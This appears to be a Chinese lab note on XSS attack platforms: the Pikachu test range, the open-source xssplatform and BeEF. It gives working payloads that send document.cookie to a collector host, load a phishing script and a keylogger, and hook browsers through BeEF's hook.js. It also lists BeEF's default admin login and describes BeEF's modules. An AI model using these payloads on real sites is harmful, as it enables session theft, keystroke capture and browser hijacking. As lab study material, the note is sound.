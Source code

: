# pikachu的XSS平台

## 基于反射型GET  



### 获取Cookie 

#### 源码

http://192.168.70.130/pkxss/xcookie/cookie.php 

#### payload1

修改输入长度 

```javascript
<script>document.location='http://192.168.70.130/pkxss/xcookie/cookie.php/cookie='+document.cookie;</script>
```

#### payload2

```shell
http://192.168.70.130/vul/xss/xss_reflected_get.php?message=<script>document.location='http://192.168.70.130/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>&submit=submit
```



## 基于反射型POST 

访问地址 

http://192.168.70.130/pkxss/xcookie/post.html



## 基于存储型

### 钓鱼

#### 源码

http://192.168.70.130/pkxss/xfish/fish.php 

#### payload

```javascript
<script src="<script src="http://192.168.70.130/pkxss/xfish/fish.php"></script>
```



### 键盘记录 

#### 源码 

http://192.168.70.130/pkxss/rkeypress/rk.js 

#### payload

```javascript
<script src="http://192.168.70.130/pkxss/rkeypress/rk.js"></script>
```



# 开源XSS平台

源码

https://github.com/78778443/xssplatform 

安装流程

 https://mp.weixin.qq.com/s/BeTEMmTX93w4B3jThDZgYA



# **beef-xss**

全称：The Browser Exploitation Framework

https://beefproject.com/

https://github.com/beefproject/beef/wiki/

##  安装和启动命令 

```
beef-xss
```



## 管理后台

http://192.168.31.76:3000/ui/panel 

**用户名 :beef** 

**密码 :bebeef**

配置文件：/etc/beef-xss/config.yaml 

## 钩子地址

http://192.168.31.76:3000/hook.js 

payload 

```javascript
<script src="http://192.168.31.76:3000/hook.js"></script>
```

## 模块

### Detials 

浏览器、插件版本信息，操作系统信息 

### Logs 

浏览器动作：焦点变化，鼠标单击，信息输入 

### commands

- 绿色模块：表示模块适用当前用户，并且执行结果对用户不可见 
- 红色模块：表示模块不适用当前用户，有些红色模块也可以执行 
- 橙色模块：模块可用，但结果对用户可见 
- 灰色模块：模块为在目标浏览器上测试过 

### XSS Rays

XSS扫描工具 

https://github.com/beefproject/beef/wiki/xss-ray